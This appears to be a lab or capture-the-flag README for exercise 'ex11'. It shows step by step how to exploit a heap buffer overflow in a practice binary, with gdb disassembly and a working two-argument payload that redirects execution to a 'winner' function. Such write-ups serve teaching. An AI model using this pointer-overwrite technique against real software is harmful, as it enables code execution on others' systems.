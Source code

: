 # ex11 README

## Objective

The goal of this exercise is to exploit a heap-based buffer overflow to redirect code execution and print the message "and we have a winner @ <'value'>".

### Steps to Achieve the Objective

1. **Analyze the Binary**:

    - Use tools like `strings`, `objdump`, and `gdb` to understand the binary.
    - Identify key functions, memory allocations, and potential vulnerabilities.
2. **Determine Function Addresses**:

    - Find the address of the `winner` function.
3. **Understand Memory Allocation and Structure**:

    - Use `malloc` to allocate memory for structures.
    - Use `strcpy` to copy data into these allocated buffers.
    - Identify how pointers are manipulated and stored in the allocated memory.
4. **Craft Payloads**:

    - Create payloads that overwrite function pointers to redirect execution to the `winner` function.
5. **Execute the Payloads**:

    - Run the binary with the crafted payloads as arguments to achieve the desired output.

### Step-by-Step Guide

#### 1\. Initial Analysis

Start by using `strings` to get an overview of the binary:


```sh
strings bin
```

Key output:

```plaintext
and we have a winner @ %d
and that's a wrap folks!
```

#### 2\. Identify Function Addresses

Use `objdump` to find the address of the `winner` function:

```sh
objdump -t bin | grep win
```

Key output:

```plaintext
08048494 g     F .text  00000025              winner
```

The address of the `winner` function is `0x08048494`.

#### 3\. Analyze Memory Layout

Use `gdb` to disassemble the `main` function and set breakpoints to understand memory allocations and pointer manipulations:

```sh
gdb -q ./bin
(gdb) break main
(gdb) run AAAA BBBB
(gdb) disassemble main
```

Key disassembly output:

```plaintext
 0x080484b9 <+0>:     push   %ebp
   0x080484ba <+1>:     mov    %esp,%ebp
   0x080484bc <+3>:     and    $0xfffffff0,%esp
   0x080484bf <+6>:     sub    $0x20,%esp
   0x080484c2 <+9>:     int3
   0x080484c3 <+10>:    add    $0x24,%al
   0x080484c5 <+12>:    or     %al,(%eax)
   0x080484c7 <+14>:    add    %al,(%eax)
   0x080484c9 <+16>:    call   0x80483bc <malloc@plt>
   0x080484ce <+21>:    mov    %eax,0x14(%esp)
   0x080484d2 <+25>:    mov    0x14(%esp),%eax
   0x080484d6 <+29>:    movl   $0x1,(%eax)
   0x080484dc <+35>:    movl   $0x8,(%esp)
   0x080484e3 <+42>:    call   0x80483bc <malloc@plt>
   0x080484e8 <+47>:    mov    %eax,%edx
   0x080484ea <+49>:    mov    0x14(%esp),%eax
   0x080484ee <+53>:    mov    %edx,0x4(%eax)
   0x080484f1 <+56>:    movl   $0x8,(%esp)
   0x080484f8 <+63>:    call   0x80483bc <malloc@plt>
   0x080484fd <+68>:    mov    %eax,0x18(%esp)
   0x08048501 <+72>:    mov    0x18(%esp),%eax
   0x08048505 <+76>:    movl   $0x2,(%eax)
   0x0804850b <+82>:    movl   $0x8,(%esp)
   0x08048512 <+89>:    call   0x80483bc <malloc@plt>
   0x08048517 <+94>:    mov    %eax,%edx
   0x08048519 <+96>:    mov    0x18(%esp),%eax
   0x0804851d <+100>:   mov    %edx,0x4(%eax)
   0x08048520 <+103>:   mov    0xc(%ebp),%eax
   0x08048523 <+106>:   add    $0x4,%eax
   0x08048526 <+109>:   mov    (%eax),%eax
   0x08048528 <+111>:   mov    %eax,%edx
   0x0804852a <+113>:   mov    0x14(%esp),%eax
   0x0804852e <+117>:   mov    0x4(%eax),%eax
   0x08048531 <+120>:   mov    %edx,0x4(%esp)
   0x08048535 <+124>:   mov    %eax,(%esp)
   0x08048538 <+127>:   call   0x804838c <strcpy@plt>
   0x0804853d <+132>:   mov    0xc(%ebp),%eax
   0x08048540 <+135>:   add    $0x8,%eax
   0x08048543 <+138>:   mov    (%eax),%eax
   0x08048545 <+140>:   mov    %eax,%edx
   0x08048547 <+142>:   mov    0x18(%esp),%eax
   0x0804854b <+146>:   mov    0x4(%eax),%eax
   0x0804854e <+149>:   mov    %edx,0x4(%esp)
   0x08048552 <+153>:   mov    %eax,(%esp)
   0x08048555 <+156>:   call   0x804838c <strcpy@plt>
   0x0804855a <+161>:   movl   $0x804864b,(%esp)
   0x08048561 <+168>:   call   0x80483cc <puts@plt>
   0x08048566 <+173>:   leave
   0x08048567 <+174>:   ret
```

#### 4\. Identify Key Breakpoints

Set breakpoints to analyze the state of memory and registers after key points:

```sh
gdb -q ./bin
(gdb) break *main+21   # After first malloc
(gdb) break *main+47   # After second malloc
(gdb) break *main+68   # After third malloc
(gdb) break *main+127  # After first strcpy
(gdb) break *main+156  # After second strcpy
(gdb) run AAAA BBBB
```

#### 5\. Inspect Memory at Each Breakpoint

At each breakpoint, inspect the state of the stack and registers to understand how the heap allocations and pointers are set up:

```sh
(gdb) x/32x $esp
(gdb) info registers
(gdb) continue
```

### Payload Construction

Given the understanding from the memory layout and pointer manipulation:

1. **First Payload**:

    - `A` * 20 + `\x74\x97\x04\x08`
    - This payload fills 20 bytes of buffer and overwrites the pointer to point to the location where the second payload will write the `winner` function address.
2. **Second Payload**:

    - `\x94\x84\x04\x08`
    - This payload directly writes the address of the `winner` function to the location pointed to by the first payload.

### Execute the Payloads

Run the binary with the crafted payloads:

```sh
./bin $(python -c "print 'A'*20 + '\x74\x97\x04\x08'") $(python -c "print '\x94\x84\x04\x08'")
```

### Explanation of How It Works

1. **Heap Allocation**:

    - The program allocates memory on the heap for structures using `malloc`.
2. **Pointer Manipulation**:

    - The first payload overwrites a pointer in the first allocated structure to point to a specific location.
    - The second payload writes the address of the `winner` function to this location.
3. **Function Pointer Overwrite**:

    - By overwriting the function pointer, the program's execution is redirected to the `winner` function when it attempts to call the pointer.
4. **Execution Redirection**:

    - The program prints "and we have a winner @ <'value'>", indicating successful exploitation.

### Conclusion

By carefully analyzing the binary, understanding the memory layout, and crafting precise payloads, we successfully redirected execution to the `winner` function. This exercise demonstrated the importance of understanding heap-based buffer overflows and how to exploit them to manipulate program execution.

### Replication Steps

1. **Analyze the binary** with `strings`, `objdump`, and `gdb`.
2. **Identify function addresses** and key memory allocations.
3. **Set breakpoints** and inspect memory at key points.
4. **Craft payloads** to overwrite function pointers.
5. **Execute the payloads** as arguments to the binary.
6. **Verify the output** to ensure successful exploitation.

By following these steps, you can replicate the exploitation process and achieve the desired outcome of printing "and we have a winner @ <'value'>".
